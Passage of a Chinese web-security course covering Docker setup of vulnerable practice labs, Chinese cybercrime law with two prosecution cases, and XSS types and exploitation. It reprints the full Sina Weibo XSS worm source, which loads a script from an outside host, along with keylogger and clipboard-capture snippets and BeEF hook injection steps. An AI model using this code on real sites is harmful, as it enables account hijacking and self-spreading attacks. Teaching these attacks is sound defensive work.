那如何使用 Docker 快速安装 sqli-labs 呢？首先，搜索 sqli-labs 镜像，挑 战STARS 星标最多的镜像，这里选择“acgpiano/sqli-labs”镜像：
$ sudo docker search sqli-labs NAME DESCRIPTION STARS OFFICIAL AUTOMATED acgpiano/sqli-labs sql injection labs 12 c0ny1/sqli-labs sqli-labs 是一个 sql 注入的练习靶机，项目地址为… 2 sari3l/sqli-labs-safedog Base: sqli-labs & safedog(version Linux64_2.… 1 promiseit/sqli-labs 1 0bajie0/sqli-labs 1 tinmin/sqli-labs 0 area39/sqli-labs sql inject 0 hl0rey/sqli-labs 0 sari3l/sqli-labs Base: Debian-Wheey + MySQL 5.5 + PHP 5 0 sari3l/sqli-labs-yunsuo Base: sqli-labs & yunsuo(version Linux_3.0.6… 0 aqyoung/sqli-labs 0 xuanxuan3000/sqli-labs 0 fengbj/sqli-labs lamp+sqli-labs please down 2.0 0 jylsec/sqli-labs 0 baohs/sqli-labs-cenos 0 mendickxiao/sqli-labs sqli-labs based on ubuntu 0 r0ulier/sqli-labs sqlInjection 0
然后拉取镜像：
$ sudo docker pull acgpiano/sqli-labs Using default tag: latest latest: Pulling from acgpiano/sqli-labs 10e38e0bc63a: Pull complete 0ae7230b55bc: Pull complete fd1884d29eba: Pull complete 4f4fb700ef54: Pull complete 2a1b74a434c3: Pull complete fb846398c5b7: Pull complete 9b56a3aae7bc: Pull complete 1dca99172123: Pull complete 1a57c2088e59: Pull complete b3f593c73141: Pull complete d6ab91bda113: Pull complete d18c99b32885: Pull complete b2e4d0e62d16: Pull complete 91b5c99fef87: Pull complete bf0fd25b73be: Pull complete b2824e2cd9b8: Pull complete 97179df0aa33: Pull complete Digest: sha256:d3cd6c1824886bab4de6c5cb0b64024888eeb601fe18c7284639db2ebe9f8791 Status: Downloaded newer image for acgpiano/sqli-labs:latest docker.io/acgpiano/sqli-labs:latest
接着再在容器中运行 sqli-labs：
$ sudo docker run -dt --name sqli-labs -p 80:80 --rm acgpiano/sqli-labs [13:36:58] 2c40ccae95775f7dca6064c95e5eed9c58e66c93e92775a04f22f407b665d331
各参数含义如下所示：
-d：代表后台运行 -t：为容器分配伪终端 --name：命名容器 -p：指定映射端口，此处将 acgpiano/sqli-labs 的 80 端口映射到本地的 80 端口 --rm：退出时自动移除容器
现在我们直接访问http://localhost，可以看到 sqli-labs已经成功运行了。
图 1：sqli-labs 成功运行
最后点击“Setup/reset Database for labs”链接完成数据库的安装：
图 2：完成数据库安装
到此，sqli-labs 安装结束！
安装 DVWA 靶场
DVWA（Damn Vulnerable Web Application）是一款比较著名的漏洞靶场，很多 Web 安全的初学者都会拿它来练习，一些高校以及相关书籍里面也会介绍它。
DVWA的项目开源地址为https://github.com/digininja/DVWA。
DVWA 靶场可以直接通过 Docker 安装：
$ sudo docker pull citizenstig/dvwa $ sudo docker run -d --name dvwa --rm -p80:80 citizenstig/dvwa
安装成功后，打开http://localhost：
图 3：DVWA靶场
然后点击“Create/Reset Database”创建数据库，使用默认密码 admin/password登录，即可正常使用。做题时它能直接提供阅读源码的功能，不 过题目相对少一些。

图 4：DVWA 支持在线查看源码
上面的 XSS 漏洞默认是安全的，在实际练习时，可以在“DVWA Security“中设 置安全等级，即题目的难度等级，共有 4 等，其中 Impossible代表的是已修复 漏洞的情况，可以用来熟悉如何修复漏洞。
图5：DVWA 安全等级设置
安装 Pikachu 靶场
Pikachu 也是一款 Web 漏洞靶场，涵盖各种 Web 漏洞类型的练习，也是基于 PHP+MySQL搭建的平台，是由国人开发的。平台采用中文描述和基本的页面设计， 相比sqli-labs 这种单调的界面还是好看很多的。Pikachu的项目开源地址为 https://github.com/zhuifengshaonianhanlu/pikachu。
安装 Pikachu 也很简单，通过 Docker 即可快速安装。我们先搜索下镜像：
$ sudo docker search pikachu NAME DESCRIPTION STARS OFFICIAL AUTOMATED area39/pikachu https://github.com/zhuifengshaonianhanlu/pik… 3 ……
然后取第一个镜像安装&运行：
$ sudo docker pull area39/pikachu $ sudo docker run -d --name pikachu --rm -p80:80 area39/pikachu
安装成功后，打开http://localhost即可。
图 6：Pikachu 靶场
CTF 赛题练习
CTF（Capture The Flag）夺旗赛，在网络安全领域中指的是网络安全技术人员 之间进行技术竞技的一种比赛形式。CTF起源于 1996 年 DEFCON全球黑客大会， 以代替之前黑客们通过互相发起真实攻击进行技术比拼的方式。发展至今，CTF 已经成为全球范围网络安全圈流行的竞赛形式。
一些 CTF出题方经常会直接搭建现成的漏洞测试环境供参赛者使用，有些赛后会 取消，有些会一直保留。所以你也可以直接利用现成的CTF赛题环境来练习，连 搭建环境这一步都省去了。对于一些未保留在线赛题环境的CTF 题目，就只能自 己搭建了。
前面的漏洞靶场更新频率不高，CTF赛题会更与时俱进一些，每年都有新比赛和 新赛题，特别是新的漏洞场景和利用技术，这在CTF 上很容易看到。
图 7：CTF TIME
各种国内外的赛事、题目与解答（write-up）都可通过该链接获取到，我在这里 顺便也介绍几个现成的Web 漏洞 CTF 在线练习环境：
1. XCTF攻防世界 ：https://adworld.xctf.org.cn
图 8：XCTF 攻防世界
2. SQL注入挑战平台 ：http://redtiger.labs.overthewire.org

图 9：SQL 注入挑战平台
3. 韩国 Web 安全挑战平台 ：https://webhacking.kr/
图 10：韩国 Web 安全挑战平台
4. Websec CTF练习平台 ：http://www.websec.fr/

图 11：Websec CTF 练习平台
5. 网络信息安全攻防学习平台 ：http://hackinglab.cn/index.php
图 12：网络信息安全攻防学习平台
6. 国外的 XSS 挑战平台 ：http://prompt.ml/
图 13：国外的 XSS 挑战平台
你可以根据自己的喜好做选择进行练习。
安装 VulHub 真实漏洞靶场
Vulhub 是一款基于 Docker 和 docker-compose的漏洞测试靶场，进入对应目录 并执行一条语句即可启动一个全新的漏洞环境，让漏洞复现变得更加简单，让安 全研究者更加专注于漏洞原理本身。Vulhub的项目开源地址为 https://github.com/vulhub/vulhub。
前面的靶场都是精心构造的漏洞场景，与真实的漏洞场景还是有一些差异的。为 了提高实战水平，熟悉更多的真实漏洞场景，建议你安装VulHub 来重现各种历 史漏洞进行实战练习。
对于每个漏洞，VulHub都有相应的文档描述其漏洞原理以及测试利用方法，你在 重现漏洞后，可以进一步研究相关漏洞类型的利用技术，并对漏洞代码进行阅读， 以提高代码审计能力。
我们需要先从 GitHub 上下载 VulHub，然后进行相应目录去创建和运行容器：
$ git clone https://github.com/vulhub/vulhub $ cd vulhub/flask/ssti $ sudo docker-compose up -d
安装使用都很方便。
该项目几乎每个月都在更新，非常适合用于检测、利用和防御漏洞时的测试环境搭建。
总结
这一讲我主要介绍了一些用来实战漏洞攻防的训练靶场，并重点介绍了 Docker 快速搭建环境的方法，它相比传统方法中一个个工具的安装更加便捷；同时，靶 场还能避免对真实网站非法测试的风险。
我向你介绍了 sqli-lab、DVWA、Pikachu、VulHub这些业界常用的漏洞靶场，你 可以都安装了，然后跟着后面的教程，边学边动手操作，以提高自己的实战能力， 以及对漏洞的理解。
除了上述靶场之外，你如果还知道其他好的靶场，也欢迎在留言区中推荐。
下一讲，我将带你了解在渗透测试过程中需要注意的法律法规。之后，咱们就会 进入本课程最核心的内容，模块二的漏洞攻防。

法律法规：如何合法地进行渗透测试
你好，我是赢少良。渗透测试是模拟黑客攻击的技术手段去业务产品进行安全测 试，将发现的漏洞和风险以测试报告的形式同步给客户，并协助其修复，防止被 黑客攻击入侵。
任何未经授权的渗透测试都是违法的。 这句话就是本文要说的重点。
网络安全法
2017 年 6 月 1日发布的《中华人民共和国网络安全法》，对一些网络犯罪行为 有了更明确的规定，这里我主要讲下涉及个人的相关规定，其对应的法律条文摘 抄如下：
第十二条 任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社 会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽 动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一，宣扬恐怖 主义、极端主义，宣扬民族仇恨、民族歧视，传播暴力、淫秽色情信息，编造、 传播虚假信息扰乱经济秩序和社会秩序，以及侵害他人名誉、隐私、知识产权和 其他合法权益等活动。
第二十七条 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。
第四十四条 任何个人和组织不得窃取或者以其他非法方式获取个人信息，不得非法出售或者非法向他人提供个人信息。
第四十六条 任何个人和组织应当对其使用网络的行为负责，不得设立用于实施诈骗，传授犯罪方法，制作或者销售违禁物品、管制物品等违法犯罪活动的网站、通讯群组，不得利用网络发布涉及实施诈骗，制作或者销售违禁物品、管制物品以及其他违法犯罪活动的信息。
第四十八条 任何个人和组织发送的电子信息、提供的应用软件，不得设置恶意程序，不得含有法律、行政法规禁止发布或者传输的信息。
第七十六条 本法下列用语的含义：
（五）个人信息，是指以电子或者其他方式记录的能够单独或者与其他信息结合识别自然人个人身份的各种信息，包括但不限于自然人的姓名、出生日期、身份证件号码、个人生物识别信息、住址、电话号码等。
与本课程息息相关的就是第 27条规定，希望你能牢记： 主动或协助他人入侵、 提供黑客工具、发送恶意程序等行为都属于违法行为 。
刑法
《刑法》第 285 条和第 286条中，分别规定了非法入侵计算机信息系统罪和破 坏计算机信息系统罪：
第二百八十五条 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。
第二百八十六条 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。
违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。
故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。
最高人民法院最高人民检察院也对此作出了相关的解释，视具有以下情形之一的， 就会被认定为“情节严重”：
（一）获取支付结算、证券交易、期货交易等网络金融服务的身份认证信息十组以上的；
（二）获取第（一）项以外的身份认证信息五百组以上的；
（三）非法控制计算机信息系统二十台以上的；
（四）违法所得五千元以上或者造成经济损失一万元以上的；
（五）其他情节严重的情形。
看上面的量化数据，“情节严重”还是很容易达到的，尤其是 SQL 注入（在第 06、07 讲时会涉及），用 sqlmap 一测试，不小心就可能获取 500组身份认证 信息了。
这种在未授权的情况下进行的渗透测试很容易违反上述法律规定，那么我们如何 合法地进行渗透测试呢？这自然是要先拿到授权，而且必须是网站所有者的官方 书面授权，并盖有公章的。授权里要明确测试范围，比如域名，要注明测试时间 段，以及要把具体的渗透测试方案同步给客户，在客户同意后再进行测试。
测试与入侵
现在很多企业都有自己的SRC（安全响应中心）平台，都有公开的漏洞奖励计划， 允许大家对其产品进行安全测试。也有一些第三方众测平台，招集优秀的白帽子 进行安全测试，这种一般可以理解为授权，但也不是绝对的，主要还是得明确测 试与入侵的区别。
测试与入侵的区别可以参考以下几点：
- 是否窃取业务数据；
- 是否破坏业务的正常运营，特别是造没造成实际的经济损失；
- 是否恶意留取后门；
- 是否未经授权，对国家事务、国防建设、尖端科学技术领域的计算机信息系统进行测试。
不过，我想说的是，这里更关键的是看企业的态度，如果企业真的追究起来，一 般都是一告一个准，哪怕你第一时间报到SRC 或第三方平台上了，比如著名的 “袁炜事件”。
“袁炜事件”
2016年的“袁炜事件”就是一个醒目的案例，当事人袁炜发现了“世纪佳缘”网 站的漏洞，并将漏洞提交到第三方漏洞报告平台“乌云”上，“世纪佳缘”先是 确认并修复了漏洞，并对乌云和袁炜进行致谢。不过随后，“世纪佳缘”以“网 站数据被非法窃取”为由报警，警方经调查拘留了袁炜。
据袁炜父亲写的公开信所说，袁炜使用 sqlmap 利用 SQL注入漏洞获取了“世纪 佳缘”的网站数据 932条实名信息。而袁炜也正是因为这才被抓的。
一般情况下，企业安全人员与业务人员是两批人，如果业务人员直接借助法务起 诉白帽子，安全人员想拦也拦不住，白帽子基本是要遭罪的。虽然SRC和众测平 台有邀请测试的公开声明，但一旦涉及疑似入侵行为，仍可报警抓人。
“吴永丰事件”
另外还有一起发生在我身边的案例。
今年 7月，杭州滨江人民法院公开了一份刑事判决书，原苏州紫豹科技有限公司 法定代表人吴永丰以盗窃罪被逮捕入狱，最终被判12 年。这是我微信好友里第 2 个入狱的，希望以后不会再有。
事情经过，我直接引用公开的资料：
当时，紫豹科技受江苏警方委托调查诈骗案，调查一个“万鸿彩店”App，该 App的后台叫“米来了”，由九辰公司管理。
吴永丰在 2019 年 4 月 20 日下午 15 时至 19时，利用调查时掌握的运维后台 服务器数据，注册了 30个虚假账户，运行自制转账程序，向九辰公司所管理的 第三方支付账户发起转账请求，转账共计88.47755 万元。
88 万元中 45 万元用于比特币交易，10 万元转至他人账户后无影无踪，剩余 33万被通过 ATM 取现、POS 机刷卡等方式提取，用于还款、发放工资、消费等 等。
2019 年 6 月 19日，作案两个月之后，吴永丰主动投案，在杭州市看守所中， 他度过了 25岁生日。整整一年之后，2020 年 6 月 19日，吴永丰在法庭上知道 了他接下来的命运，有期徒刑十二年。
这是一起由授权的渗透测试转变为入侵犯罪的案例。原本协助警方破案是件好事， 但最终还是没能抵住金钱的诱惑，误入歧途，甚为可惜。
XSS：劫持身份的“惯犯”
你好，我是赢少良。从本讲开始，我将带你进入 Web漏洞攻防的世界，学习一些 常见的 Web 漏洞的原理、利用与防御。
在这些常见的Web 漏洞中，XSS（Cross-site Script，跨站脚本）漏洞无疑是最 多见的。根据 HackerOne 漏洞奖励平台发布的/The 2020 Hacker Report/，XSS 漏洞类型占所有报告漏洞中的23％，排名第一。因此，在“ 模块二：漏洞攻防 案例 ”，我特意以 XSS作为讲解的第一个漏洞类型。
图 1：HackerOne 平台上报告的漏洞类型占比
起源
最早的 XSS 漏洞可追溯到 1999年末，微软安全工程师发现一些网站遭到攻击， 网站被插入了一些恶意脚本和图像标签。随后，微软对此类漏洞进行研究分析， 并在2000 年 1 月，正式使用“cross-site scripting”这个名称，然后逐渐被 业界采用，留传至今。
跨站脚本（Cross-site Script），按理应该简称为CSS，但为了与层叠样式表 （CSS）区分开，特意改为 XSS。
XSS漏洞，通常指的是 网站对用户输入数据未做有效过滤，攻击者可以将恶意 脚本注入网站页面中，达到执行恶意代码的目的 。攻击者只需要诱使受害者打 开特定的网址，就可以在受害者的浏览器中执行被注入的恶意代码，从而窃取用 户身份，执行一些敏感操作，或是进行其他的危害行为。
危害：绝不仅仅只是弹框
一些听过XSS的同学，可能仅停留在弹框的印象里；我曾在修复此类漏洞时，只 是简单地针对alert函数做了下过滤。这都是对 XSS攻防原理理解不够造成的误 解。其实，只要你想象力够丰富，它的危害是可以造成很大的。
图 2：常用于验证 XSS 漏洞的弹框
比如 2005 年 10 月 4 日诞生的世界上第一个 XSS蠕虫：Samy（作者的名字）。
Samy 利用网络社交媒体 MySpace 的 XSS 漏洞传播，受害者会自动将 Samy 本 人添加为关注者，并在受害者的用户页面显示一行字串“but most of all， samy is my hero”，并再次插入恶意代码，谁访问受害者的网页谁就会被感染。
Samy 感染的用户呈指数倍增长，最终，超过 100万用户被感染，作者也因事态 发展失控而入狱，并被禁止 3年内接触计算机，外加 90 小时的社区服务。
图 3：受 Samy 蠕虫攻击后，作者粉丝暴涨
图 4：受 Samy 蠕虫攻击后，受害者的用户页面被篡改
Samy 蠕虫是现实世界中 XSS攻击的经典案例，除了蠕虫攻击外还有很多其他危 害：盗号、钓鱼欺诈、篡改页面、刷广告流量、内网扫描、网页挂马、挖矿、键 盘监听、窃取用户隐私等等。
如果能充分利用好业务场景下的功能，再结合一定技术和想象力，XSS所造成的 危害绝不仅仅只是弹框。如果你是开发，在修复 XSS漏洞过程中，也别单纯想着 怎么防止弹框。更为全面的防御方案，我会在下一讲《05｜XSS：漏洞的检测与 防御》中介绍。
XSS 漏洞的分类
通常 XSS 分为 存储型 和 反射型 ，但还有一种比较特殊的 DOM 型XSS
，它本身属于反射型 XSS，不过介绍的时候需要单独来讲。因此，我就按 3种类
型划分：反射型、存储型、DOM 型。
反射型 XSS
我们首先来看反射型 XSS。反射型 XSS又被称为非持久型跨站脚本，它是将攻击 代码放在 URL参数中，而不是存储到服务器，因此需要诱使用户点击才能触发攻 击。
以 DVWA 中的反射型 XSS 题目为例，通过向 name参数输入以下代码即可触发漏 洞：
<script>alert(1)</script>
图5：利用 XSS 漏洞执行注入的JS代码
在 Chrome浏览器中，用“检查”功能看下网页源码，可以发现我们输入的代码 被解析并执行了：
图6：被解析执行的注入的代码
其漏洞代码也非常简单。从 GET 参数 name获取用户输入后，未经过滤就直接调 用 echo 函数输出到页面，最终导致 XSS的产生。漏洞代码如下：
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
// Feedback for end user
echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>
有人认为反射型 XSS 的危害不如存储型XSS，但我认为没有什么区别。这里的挑 战主要是URL是否包含攻击代码。
存储型 XSS
第二种 XSS 漏洞是存储型XSS，它又被称为持久型跨站脚本。攻击者将恶意代码 存储到服务器上，只要诱使受害者访问被插入恶意代码的页面即可触发。存储型 XSS 经常出现在一些可以发表评论的地方，如帖子、博客。
在 DVWA 靶场中就有一个存储型 XSS案例，它是个留言本的功能，支持用户发表 评论，然后将用户输入的数据直接存储到数据库，并输出到页面上。这个过程中 因为未做任何的过滤，导致了XSS 漏洞的产生。
图 7：DVWA 靶场中的存储型 XSS
存储型 XSS的特点就是不需要在诱使用户访问的URL中包含攻击代码 ，因为它 已经存储到了服务器中，只需要让用户访问包含输出攻击代码的页面即可，漏洞 代码如下：
<?php if( isset( $_POST[ 'btnSign' ] ) ) { // Get input $message = trim( $_POST[ 'mtxMessage' ] ); $name = trim( $_POST[ 'txtName' ] ); // Sanitize message input $message = stripslashes( $message ); $message = mysql_real_escape_string( $message ); // Sanitize name input $name = mysql_real_escape_string( $name ); // Update database $query = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );"; $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); //mysql_close(); } ?>
从 POST 参数中获取 mtxMessage 和 txtName参数后，虽然经过一定过滤才插入
到数据库中，但是中括号不会被过滤，在其他地方将其输出到页面后就会被解析
（如图5）。我们在 Message 中输入“ <script>=alert(1)=</script> ”，点
击“Sign Guestbook”提交，即可触发漏洞。
图 8：触发漏洞弹框
利用 Chrome浏览器的“检查”功能查看网页源码，可以发现刚才输入消息中的
<script> 标签被解析了：
图 9：script 标签被解析
正是它导致弹框的出现。
DOM 型 XSS
最后是 DOM 型 XSS 漏洞，它是基于文档对象模型（Document Object Model， DOM，用于将 Web页面与脚本语言链接起来的标准编程接口）的一种漏洞，它不 经过服务端，而是通过URL 传入参数去触发，因此也属于反射型 XSS。
由于客户端的 JavaScript 可以访问浏览器页面中的 DOM 对象，因此它能够决定 如何处理当前页面的 URL，比如获取 URL中的相关数据进行处理，然后动态更新 到页面上。这导致 DOM 型 XSS的漏洞代码常位于网页的 JavaScript 代码中。
以 Pikachu 漏洞练习平台中的“DOM 型XSS”题目为例：它只有一个文本输入框， 外加一个“click me!”的按钮。我们先看下网页源码，看点击按钮后的回调函 数。
图 10：定位按钮的回调函数
可以看到，点击后会执行一个叫 domxss 的函数。在源码内搜索下该函数。
图 11：domxss 函数
domxss 函数就 2 行代码，第一行代码先通过 document.getElementById("text").value 获取 ID为“text”的元素内容。其 实这就是输入框的内容，输入框的 ID就叫“text”。
图12：id 为 text 的输入框
第二行代码是将获取的输入框内容传递给 ID 为“dom”的元素，并将其写入 innerHTML，也就是输出到 HTML页面中，整个过程对用户输入数据都未做任何过 滤。直接输入 test 看下：
图13：用户数据的输出位置
可以看到，输入框的内容输出到了 dom 元素中，作为 a标签的链接地址。我们 直接利用 JavaScript 伪协议来构造链接触发 JS代码的执行，输入以下代码， 然后点击“what do you see?”链接后即可触发漏洞：
javascript:alert(1)
图 14：利用 javascript 伪协议触发漏洞
导致 DOM 型 XSS 的相关 DOM 操作函数有很多，这里我只是举了比较常见的 innerHTML 属性设置导致的漏洞为例子，其他的还有像 eval、document.write 等可触发漏洞的数据输出位置。
网上曾有人整理了一份关于 DOM XSS的数据污染源（Source，即用户输入数据） 和漏洞触发点（Sink）的列表（虽然不够全面，但可以作为参考），如下图所示：
图 15：DOM XSS Sources & Sinks
若数据从 Source 传到 Sink 过程中，未做任何过滤，就有可能存在 DOM XSS。 这个思路也常作为动静态检测 DOM XSS的重要思路，具体会在下一讲中介绍。
攻击 XSS 漏洞
这里开始我想给你介绍一些关于 XSS 漏洞利用的方法，避免你停留在 XSS只能 弹框的思想层面。
针对 XSS 漏洞最为常见的两种攻击方式就是窃取 Cookie劫持他人的会话，以
及前面介绍过的蠕虫攻击 。因此，这里会重点介绍这两者的相关技术，同时也
涉及一些其他的攻击思路，最后会引出一些自动化利用工具的使用。
蠕虫攻击
前面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS蠕虫的实现 正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。
Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和XML）是指一种 创建交互式网页应用的网页开发技术 。这个概念比较抽象，具体讲就是在我 们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页 面抖动、闪现之类的不适体验。这也正是Web2.0 带来的改变。
Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript脚本与服务器进 行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。
下面我以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例，介绍 Ajax 技术 在XSS 蠕虫中的应用，从攻击代码来详细讲解。
图 22 ：新浪微博上感染 XSS 蠕虫的用户
2011年 6 月 28 日，新浪微博遭受 XSS蠕虫的攻击，很多受害者被迫发布带有 攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此 影响。受害者在感染后，都会自动关注一位名为“hellosamy”的微博用户（估 计是效仿Samy蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信， 并发布含攻击链接的微博。得益于这种传播方式，在16分钟内病毒就感染了 33000 个用户。
我们来分析下新浪微博的 XSS 蠕虫代码：
// 创建 XMLHttp 对象用于收发请求 function createXHR(){ return window.XMLHttpRequest? new XMLHttpRequest(): new ActiveXObject("Microsoft.XMLHTTP"); } function getappkey(url){ xmlHttp = createXHR(); xmlHttp.open("GET",url,false); //获取 AppKey 不采用异步执行,等待请求返回 xmlHttp.send(); result = xmlHttp.responseText; id_arr = ''; // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid id = result.match(/namecard=\"true\" title=\"[^\"]*/g); https://beefproject.com/ for(i=0;i<id.length;i++){ sum = id[i].toString().split('"')[3]; //重新提取整理 id_arr += sum + '||'; } return id_arr; } function random_msg(){ // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本， // 这里正是 XSS 漏洞的触发位置 //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();; // 话题列表 var msgs = [ '郭美美事件的一些未注意到的细节：', '建党大业中穿帮的地方：', '让女人心动的 100 句诗歌：', '3D 肉团团高清普通话版种子：', '这是传说中的神仙眷侣啊：', '惊爆!范冰冰艳照真流出了：', '杨幂被爆多次被潜规则:', '傻仔拿锤子去抢银行：', '可以监听别人手机的软件：', '个税起征点有望提到 4000：']; //随机选取话题,加上之前的传播连接作为微博内容 var msg = msgs[Math.floor(Math.random()*msgs.length)] + link; msg = encodeURIComponent(msg); //对内容进行 Url 编码 return msg; } // 利用 Ajax 发送 POST 请求 function post(url,data,sync){ xmlHttp = createXHR(); xmlHttp.open("POST",url,sync); xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"); xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8"); xmlHttp.send(data); } // 发表微博，话题随机 function publish(){ url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime(); data = 'content=' + random_msg() + '&pic=&styleid=2&retcode='; //使用 random_msg 生成随机话题 post(url,data,true); } // 自动关注用户 function follow(){ url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime(); // 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包 data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile'; post(url,data,true); } // 发送私信 function message(){ url = 'http://weibo.com/' + $CONFIG.$uid + '/follow'; //构造用户关注用户列表页 Url ids = getappkey(url); //获取被关注用户的 Appkey 数组 id = ids.split('||'); //分割出每个被关注用户的 Appkey for(i=0;i<id.length - 1 & i<5;i++){ //构造私信发送 Url msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime(); msg = random_msg(); msg = encodeURIComponent(msg); user = encodeURIComponent(encodeURIComponent(id[i])); data = 'content=' + msg + '&name=' + user + '&retcode='; post(msgurl,data,false); //通过 XmlHttpRequest 发送请求 } } function main(){ try{ publish(); //模拟发表微博 } catch(e){} try{ follow(); //模拟关注用户 } catch(e){} try{ message(); //模拟发送私信 } catch(e){} } try{ //在当前 body 尾部插入存放在远端的 Xss 恶意脚本 x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x); } catch(e){} main(); var t=setTimeout('location="http://weibo.com/pub/topic";',5000); //等待 5 秒跳转到微话题页面
我总结了该 XSS 蠕虫的攻击流程：
- 利用 XSS 漏洞插入恶意 JS 代码；
- 利用 XMLHttpRequest发送请求去发表微博、关注用户、获取关注者列表并向 其发送私信；
- 微博消息和私信都包含有恶意攻击链接，等于实现了攻击代码的自我复制和传播。
由此可见，一个完整的 XSS 蠕虫常常具备如下特征：
- 目标网站存在 XSS 漏洞；
- 攻击代码的自我复制和传播，其传播方式依赖于业务场景，更多是在社交功能 上，比如博客、私信、微博、评论。
声明：在互联网上传播 XSS 蠕虫属于违法行为，即使是处于合法的渗透测试任 务，也该严格控制传播的可能性，否则出现失控，仍需承担法律责任 。
其他攻击方法
在 XSS 漏洞攻击场景下，凡是 JavaScript 能够实现功能，你都可以自由发挥，实现不同的攻击方法。
比如键盘记录：
keys = ""
document.onkeypress = function(){
keys += String.fromCharCode(window.event.keyCode);
}
比如在 Chrome 浏览器中使用代码截获剪贴板内容：
document.addEventListener('paste', function (evt) {
clipdata = evt.clipboardData || window.clipboardData;
console.log(clipdata.getData('text/plain'));
});
图 23：截获剪贴内容
比如钓鱼欺骗用户输入账号、密码：
图 24：利用 XSS 进行钓鱼欺骗
方法还有很多，因篇幅有限，这里不再赘述，你可以参考下面讲到的 XSS 攻击框架 BeEF，它在工具上集成了很多 XSS 攻击方式，可直接使用。
BeEF
这里我要介绍一款非常著名的 XSS 攻击框架BeEF，它支持 Docker 快速安装， 可以从GitHub 下载然后编译安装：
$ git clone https://github.com/beefproject/beef $ cd beef $ sudo docker build -t beef . $ sudo docker run -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 --name beef beef
运行成功后，你会得到一个 hook.js 地址，这是利用 XSS漏洞插入目标网站的 攻击脚本地址。
图 25：返回 hook.js 和管理界面地址
我本地得到地址是：http://127.0.0.1:3000/hook.js（实际攻击时，可将 127.0.0.1替换成你的远程服务器地址），那我就可以在漏洞页面插入如下代码 进行利用：
<script>http://127.0.0.1:3000/hook.js</script>
受害者访问后，若利用成功的话，在 BeEF 管理页面（此处为 http://127.0.0.1:3000/ui/panel）就可以看到目标上线了。
图 26：BeEF 漏洞利用框架
刚运行的时候，BeEF 会生成随机密码，账号为 beef，比如：
Beef credentials: beef:aaGivbkemeYNtCYRFrlyQN75lcmMYMm5
用上面的账号密码登录即可；你也可以修改 config.yaml 中的账号密码再运行。
BeEF上面的利用功能实在是太多了，你可以把每个功能都试用一下，相信你试用 完之后会对XSS 的危害和利用手法有新的认识。
总结
最后，我对这一讲的内容做个总结。
首先，我介绍了 XSS 的起源以及危害，然后讲解了反射型、存储型和 DOM 型 XSS的原理，并从代码层面分析了漏洞成因。随后我介绍了各种常见的 XSS攻击 手法，结合实例分析了 Cookie窃取和蠕虫攻击的具体实现，帮助你进一步了解 XSS 的危害。
BeEF 是一款优秀的 XSS 攻击框架，包含有非常丰富的 XSS漏洞利用功能，如果 你想深入学习 XSS 的攻击手段，从 BeEF入手是不错的选择。BeEF 已经在 GitHub 开源，主要是采用 JavaScript 和 Ruby开发，你可以重点研究下漏洞利 用中的 JavaScript 代码，即 hook.js 文件。
如果你有什么好的 BeEF 利用技巧，或者是其他优秀的 XSS利用工具，欢迎你在 留言区留言推荐。
下一讲，我将介绍如何挖掘三大类型的 XSS 漏洞以及如何防御，到时见~
XSS：漏洞的检测与防御
你好，我是赢少良。上一讲我介绍了反射型 XSS、存储型 XSS 和 DOM 型 XSS的 原理，以及常见的漏洞攻击手法。这一讲我们就来学习下如何挖掘 XSS漏洞，又 如何防御 XSS 漏洞。
目前 Flash 已经被各大浏览器禁用，Adobe 官方也不再更新 Flash 相关产品。 HTML5 技术已经基本替换掉 Flash，因此不再介绍 Flash 相关的漏洞。
XSS 漏洞挖掘
XSS 漏洞挖掘的方法可以按有无源码的情况分为黑盒测试和白盒测试。
黑盒测试 主要是通过发送特意构造攻击字符串来验证漏洞，比如 <script> alert(1)</script>。请求后看是否会弹框，若会则代表存在XSS，反之则不存在。
